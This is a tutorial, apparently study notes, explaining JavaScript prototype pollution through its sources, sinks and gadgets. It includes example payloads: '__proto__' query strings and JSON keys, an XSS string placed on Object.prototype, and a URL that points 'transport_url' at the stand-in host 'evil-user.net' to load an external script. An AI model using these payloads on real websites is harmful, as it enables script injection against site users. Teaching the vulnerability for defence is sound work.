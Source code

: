 # 3 Key Components for Exploitation

### 1. A Source

This is any input that enables you to poison prototype objects with arbitrary properties.

* The URL via either the query or fragment string (hash)
* JSON based input
* Web messages

#### URL

Consider the following URL, which contains an attacker-constructed query string:

`https://vulnerable-website.com/?__proto__[evilProperty]=payload`

```javascript
/// Javascript will see this statement:

targetObject.__proto__.evilProperty = 'payload';

```

What we think will happen:

```javascript
{
	existingProperty1: 'foo',
	existingProperty2: 'bar',
	__proto__: {
		evilProperty: 'payload'
	}
}
```

What actually happens:

Instead of setting `evilProperty` inside `targetObject`, JavaScript modifies `Object.prototype`, making `evilProperty` available to all objects due to prototype inheritance.

```javascript

console.log({}.evilProperty); // 'payload'
console.log({ anotherObject: 123 }.evilProperty); //'payload'

```

#### JSON Input

When an application receives user input in JSON format. It usually converts JSON into an object using `JSON.parse()`

```javascript
const jsonInput = '{"key": "value"}';
const parsedObject = JSON.parse(jsonInput);

console.log(parsedObject); // {key: 'value'}
```

The issue arises when a user injects a key named `__proto__` in the JSON input

```javascript
const jsonInput = '{"__proto__": {"evilProperty": "payload"}}';
const ParsedObject = JSON.parse(jsonInput);

console.log(parsedObject); // {__proto__: { evilProperty: 'payload' } }

```

Merging the above with another object without sanitizing keys will lead to Prototype Pollution.

Though the above example shows the parsing of JSON into an object, it is different when **defining** the object as an **object literal** as it does not cause the vulnerability

```javascript
// Defining as JSON causes vuln
const jsonInput = '{"__proto__": {"evilProperty": "payload"}}';

// Defining Object Literal does not cause vuln
const objLiteral = {__proto__: { evilProperty: "payload" } };

```

***

### 2. A Sink

A prototype pollution sink is essentially just a JavaScript **function** or DOM element that you're able to access via prototype pollution, which enables you to execute arbitrary JavaScript or system commands.

Prototype pollution lets an attacker **inject** properties into the global prototype (`Object.prototype`). If the application later **uses** these polluted properties in a **dangerous function**, that function becomes the **sink**.

```javascript
const userSettings = getUserSettings(); // Assume this is merged with polluted prototype
document.body.innerHTML = `<h1>${userSettings.theme}</h1>`;
```

If an attacker pollutes the prototype:

```javascript
Object.prototype.theme = '<script>alert(1)</script>';
```

Then `userSettings.theme` will unexpectedly contain the attacker's payload, leading to **DOM XSS**.

***

### 3. A gadget

A **gadget** in the context of prototype pollution is a piece of vulnerable code that **unintentionally** uses polluted properties in a dangerous way. This allows an attacker to **hijack the program's behavior**.

Let’s say a JavaScript library on a website has this configuration code:

```javascript
let transport_url = config.transport_url || defaults.transport_url;
```

If `config.transport_url` is undefined, it inherits polluted properties from `Object.prototype`

Later in the code, this value is used to load an external script:

```javascript
let script = document.createElement('script');
script.src = `${transport_url}/example.js`;
document.body.appendChild(script);
```

If no `transport_url` is set in config then `config.transport_url` inherits from the prototype. The attacker then pollutes the prototype using URL parameter like:

`https://vulnerable-website.com/?__proto__[transport_url]=//evil-user.net`

resulting in:

```javascript
Object.prototype.transport_url = "//evil-user.net"
```

Now, every object will inherit this polluted value
